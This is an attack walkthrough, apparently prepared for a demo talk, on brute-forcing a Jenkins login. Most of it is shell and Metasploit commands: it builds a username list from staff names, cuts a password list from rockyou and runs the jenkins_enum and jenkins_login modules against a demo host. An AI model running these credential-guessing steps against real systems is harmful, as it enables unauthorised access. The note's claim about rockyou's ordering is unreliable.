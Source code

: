 # Bruteforce Jenkins Login
This section aims to login to the company's Jenkins instance.
To do so, we'll prepare a list of usernames and check login with rockyou list.
Before login can be bruteforced, the login URL must be identified via BurpSuite.

## Open Questions
- how do I know the port
- how do I know the URL

## Prepare Usernamelist

```bash
mkdir -p /root/demotalk/jenkinsBrute/
cd /root/demotalk
git clone https://github.com/captain-noob/username-list-generator.git
cd username-list-generator
rm output.txt user.txt
nano user.txt
```

put the names into nano.
Dont take all names to not break too much bruteforce into
```
Kay Meyer
Robert Bartsch
Ricardo Pope
Jeffrey van der Linden
```

```bash
python3 userlistcreator.py
mv output.txt /root/demotalk/jenkinsBrute/userlist.txt
cd /root/demotalk/jenkinsBrute/
```



## Prepare Passwordlist
Let's use the end of rockyoulist as that contains the sophisticated passwords

```bash
cd /root/demotalk/jenkinsBrute/
tail -n15 /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
sed -i 's/[\t ]//g;/^$/d' passwordlist.txt
```
## Enum Module
Let's get some details of Jenkins

```bash
msfconsole
use auxiliary/scanner/http/jenkins_enum
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set TARGETURI /
exploit
```

## Login Scan Module


#### Get Login URL
use Burpsuite

### Prepare Options
prepare the exploit

```bash
msfconsole
use auxiliary/scanner/http/jenkins_login
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set USER_FILE /root/demotalk/jenkinsBrute/userlist.txt
set PASS_FILE /root/demotalk/jenkinsBrute/passwordlist.txt
set LOGIN_URL j_spring_security_check
```

